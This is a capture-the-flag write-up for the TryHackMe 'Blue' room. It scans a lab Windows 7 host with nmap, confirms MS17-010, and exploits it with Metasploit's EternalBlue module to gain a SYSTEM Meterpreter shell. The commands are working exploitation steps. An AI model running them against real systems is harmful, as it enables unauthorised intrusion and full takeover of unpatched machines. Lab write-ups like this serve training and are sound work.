




# TryHackMe - Blue Room Writeup

**IP Address:** 10.82.134.97  
**Platform:** TryHackMe  
**Room:** Blue  
**Difficulty:** Beginner  
**Date:** 2026-02-15  

---

## 1 Recon

### Nmap Initial Scan

```bash
nmap -sC -sV 10.82.134.97
```

### Open Ports

| Port        | Service      | Version                         |
|-------------|-------------|---------------------------------|
| 135         | msrpc        | Microsoft Windows RPC           |
| 139         | netbios-ssn  | Windows NetBIOS                 |
| 445         | microsoft-ds | Windows 7 Professional 7601 SP1 |
| 3389        | RDP          | ms-wbt-server                   |
| 49152-49160 | msrpc        | Windows RPC                     |

### Nmap Screenshot



---

## 2 Vulnerability Check (MS17-010)

```bash
nmap -p 445 --script smb-vuln-ms17-010 10.82.134.97
```
### Result

Target is **VULNERABLE** to:

- MS17-010  
- CVE-2017-0143  
- Remote Code Execution via SMBv1  

Risk Factor: **HIGH**

### MS17-010 Check Screenshot



---

## 3 Exploitation - EternalBlue

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.82.134.97
set LHOST <your_kali_ip>
run
```

Meterpreter session opened successfully.

### Exploitation Screenshot




---

## 4 Post Exploitation

```bash
getuid
```

### Result

```
Server username: NT AUTHORITY\SYSTEM
```

We obtained SYSTEM level access.

### SYSTEM Access Screenshot


